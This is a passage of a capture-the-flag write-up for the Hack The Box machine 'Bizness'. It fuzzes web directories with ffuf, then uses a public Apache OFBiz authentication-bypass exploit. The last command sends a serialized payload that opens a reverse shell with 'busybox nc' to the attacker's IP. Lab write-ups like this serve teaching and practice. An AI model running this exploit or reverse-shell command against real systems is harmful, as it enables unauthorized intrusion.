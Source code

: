 ```console
$ ffuf -ic -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u https://bizness.htb/control/FUZZ -fr RequestHandlerException
...
________________________________________________
help                    [Status: 200, Size: 10756, Words: 1182, Lines: 180, Duration: 596ms]
main                    [Status: 200, Size: 9308, Words: 913, Lines: 141, Duration: 635ms]
view                    [Status: 200, Size: 9308, Words: 913, Lines: 141, Duration: 752ms]
login                   [Status: 200, Size: 11060, Words: 1236, Lines: 186, Duration: 1396ms]
logout                  [Status: 200, Size: 10756, Words: 1182, Lines: 180, Duration: 242ms]
views                   [Status: 200, Size: 9308, Words: 913, Lines: 141, Duration: 1491ms]
forgotPassword          [Status: 200, Size: 11060, Words: 1442, Lines: 175, Duration: 2298ms]
...
```

Visiting `/login` gives this:

![](_/htb-bizness-20240108-5.png)

I try a few guesses with no luck.

I search the web for "ofbiz exploit" and find one titled [Apache OFBiz Authentication Bypass Vulnerability](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass). This was _not_ in the `searchsploit` results from earlier.

It takes me a couple tries to figure out the exact URL it expects:

```console
$ git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git
Cloning into 'Apache-OFBiz-Authentication-Bypass'...
...

$ cd Apache-OFBiz-Authentication-Bypass/

$ python3 exploit.py --url https://bizness.htb/control
[+] Scanning started...
[-] Apache OFBiz instance seems NOT to be vulnerable.

$ python3 exploit.py --url https://bizness.htb/control/ogin
[+] Scanning started...
[-] Apache OFBiz instance seems NOT to be vulnerable.

$ python3 exploit.py --url https://bizness.htb/control/login
[+] Scanning started...
[-] Apache OFBiz instance seems NOT to be vulnerable.

$ python3 exploit.py --url https://bizness.htb/
[+] Scanning started...
[+] Apache OFBiz instance seems to be vulnerable.

$ python3 exploit.py --url https://bizness.htb/ --cmd 'busybox nc 10.10.14.12 443 -e bash'
[+] Generating payload...
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
```
